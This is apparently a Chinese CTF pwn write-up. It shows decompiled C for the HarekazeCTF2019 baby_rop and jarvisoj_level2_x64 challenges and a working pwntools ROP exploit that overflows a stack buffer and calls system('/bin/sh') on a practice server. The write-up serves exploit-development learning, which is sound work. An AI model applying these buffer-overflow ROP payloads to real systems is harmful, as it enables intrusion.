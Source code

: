 ```yaml
---
title: BUU_PWN刷题_0x10-0x1F
date: 2021-06-01 
tags: PWN
categories: Technology
---
```


[TOC]



## 0x10.[HarekazeCTF2019]baby_rop

没后门函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

```python
from pwn import *
context(log_level='DEBUG')
#io = process("./babyrop")
io = remote('node3.buuoj.cn',28280)
elf = ELF('./babyrop')
io.recv()
sys_plt = elf.plt["system"]
pop_rdi_ret =0x0400683
bin_sh = 0x0601048
payload = 'a'*0x18+ p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_plt)+p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

## 0x11.jarvisoj_level2_x64

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF
  system("echo Input:");
  return read(0, buf, 0x200uLL);
}
```

